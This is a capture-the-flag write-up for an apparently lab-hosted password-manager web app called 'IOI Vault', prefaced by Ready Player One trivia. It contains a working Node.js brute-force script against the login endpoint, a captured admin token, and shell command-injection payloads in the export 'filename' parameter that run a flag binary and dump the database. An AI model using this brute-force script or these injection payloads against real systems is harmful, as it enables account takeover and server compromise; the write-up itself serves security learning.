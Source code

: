 ## IOI Vault
```
Aech discovered that Nolan Sorrento uses an I0I password manager to store his Oasis rig password. Can you help Parzival and Aech extract Sorrento's Oasis rig password?
Nolan Sorrento in Ready Player One
Does Nolan Sorrento own IOI?
Sorrento is the head of Innovative Online Industries, also known as IOI, the world's largest ISP.
Wade’s wireless VR headset. “Ready Player One” doesn’t waste a whole lot of time explaining how gadgets used in the film work, but Wade’s headset, which is also used by most other characters, essentially looks like a pair of fancy ski goggles. Light, wireless, and apparently working without any external hardware, it is capable of transporting you to the virtual world of the Oasis where ever you are
Aech (pronounced as the letter 'H') is a main character in Ernest Cline's Ready Player One. Aech has been Wade's best friend for years
Wade Owen Watts, under the virtual name Parzival, is the main protagonist of Erenest Cline's novel and Steven Spielberg's movie Ready Player One. 
Also in Fallout 3 The Vault 101 entrance password is "Amata". 
```
But absolutely none of that is relevant to the challenge, so, feel free to not read it :D

Looking at the source all user passwords were generated with a funny bash oneliner:
```bash
function genPass() {
    echo -n $RANDOM | md5sum | head -c 32
}
```

Of course $RANDOM deoesn't have enough entropy to be safe to use as a password.
```bash
while true;do echo $RANDOM;done
```

So we just have to bruteforce IDOR that, I did it in node for learning sake, but you could do that with the language of your choice

```node
const fetch = require('node-fetch');
const crypto = require('crypto');


async function login() {

  for (let i = 0; i < 32767; i++) {

    const user = 'admin';
    //const hash = 'c8443b6213aa517f2d701ebf845fdae4';
    //const pass = '29073';
    const pass = i.toString();
    const hash = crypto.createHash('md5').update(pass).digest('hex');

    const query = `
      mutation($username: String!, $password: String!) {
        LoginUser(username: $username, password: $password) {
          message,
          token
        }
      }
    `;

    const variables = {
      'username': user,
      'password': hash
    };

    const endpoint = "http://64.227.37.161:32741/graphql";

    const response = await fetch(endpoint, {
      method: 'POST',
      headers: { 'Content-Type': 'application/json' },
      body: JSON.stringify({ query, variables })
    });

    const res = await response.json();
    const jsonString = JSON.stringify(res);
    console.log(pass + ' - ' + hash);

    if (jsonString.includes('User logged in successfully!')) {
      console.log(res);
      process.exit(0);
    }
  }
}

login();
```

```bash
node brute.js
...
SNIP
...
1551 - 4e6cd95227cb0c280e99a195be5f6615
1552 - 351b33587c5fdd93bd42ef7ac9995a28
1553 - 18ead4c77c3f40dabf9735432ac9d97a
1554 - 98986c005e5def2da341b4e0627d4712
{
  data: {
    LoginUser: {
      message: 'User logged in successfully!',
      token: 'eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaXNfYWRtaW4iOjEsImlhdCI6MTY4MjQ4ODU2OH0.XJ4DiaIw2GzNnR3DWssvT7y06ziq0aWuKi-keJcPUaw'
    }
  }
}
```

So now we can login as admin with that token, and admin has access to an additionnal feature in the webapp, to dump the db, how convenient
```
router.get('/admin/export', AuthMiddleware, async (req, res, next) => {
    if (!req.user.is_admin) return res.redirect('/dashboard');

    const { filename } = req.query;

    if (filename) {
        try {
            execSync(`mysqldump -h 127.0.0.1 -uioi_vault -pioi_vault --add-drop-table ioi_vault > /opt/exports/${filename}.sql`);

            if (existsSync(`/opt/exports/${filename}.sql`)) {
                return res.download(`/opt/exports/${filename}.sql`, `${filename}.sql`);
            }
        }
        catch (e) {
            return res.status(500).send(response('Something went wrong!'));
        }
    }
```

And it's pretty obviously vulnerable to command injection, so
```
GET /admin/export?filename=ioivault_dump;sleep 5; HTTP/1.1
```

pop pop
```
GET /admin/export?filename=ioivault_dump;mysql -h 127.0.0.1 -uioi_vault -pioi_vault -Dioi_vault -e "update saved_passwords set note='$(/readflag)' where owner='admin';"; HTTP/1.1
```

And we just have to use our database dumping as a service (DDaS) for the exfiltration
```
GET /admin/export?filename=ioivault_dump HTTP/1.1
```

And it's looting time
```sql
--
-- Dumping data for table `saved_passwords`
--

LOCK TABLES `saved_passwords` WRITE;
/*!40000 ALTER TABLE `saved_passwords` DISABLE KEYS */;
INSERT INTO `saved_passwords` VALUES (1,'admin','Web','ioivault.htb','admin','admin123','HTB{1d0r5_4r3_3v3rywh3r3!!!}'),(2,'louisbarnett','Web','spotify.com','louisbarnett','YMgC41@)pT+BV','student sub'),(3,'louisbarnett','Email','dmail.com','louisbarnett@dmail.com','L-~I6pOy42MYY#y','private mail'),(4,'ninaviola','Web','office365.com','ninaviola1','OfficeSpace##1','company email'),(5,'alvinfisher','App','Netflix','alvinfisher1979','efQKL2pJAWDM46L7','Family Netflix'),(6,'alvinfisher','Web','twitter.com','alvinfisher1979','7wYz9pbbaH3S64LG','old twitter account');
/*!40000 ALTER TABLE `saved_passwords` ENABLE KEYS */;
UNLOCK TABLES;
```
